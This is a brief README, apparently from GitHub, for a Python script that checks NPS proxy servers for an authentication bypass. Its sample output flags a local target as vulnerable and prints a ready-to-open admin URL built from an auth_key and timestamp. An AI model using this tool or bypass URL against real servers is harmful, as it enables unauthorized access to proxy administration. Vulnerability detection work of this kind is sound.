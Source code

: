 # NPS-AUTH-BYPASS

[NPS](https://github.com/ehang-io/nps) proxy server authentication bypasses vulnerability detection.

## Usage

```bash
python nps-auth-bypass.py -u http://127.0.0.1:8080
[+] http://127.0.0.1:8080 is vulnerable!!!
[+] Please Open This URL: http://127.0.0.1:8080/Index/Index?auth_key=e93c5036d1b96b4a0dd3cf4af408e331&timestamp=1659595833
```

![auth-bypass](./imgs/bypass.png)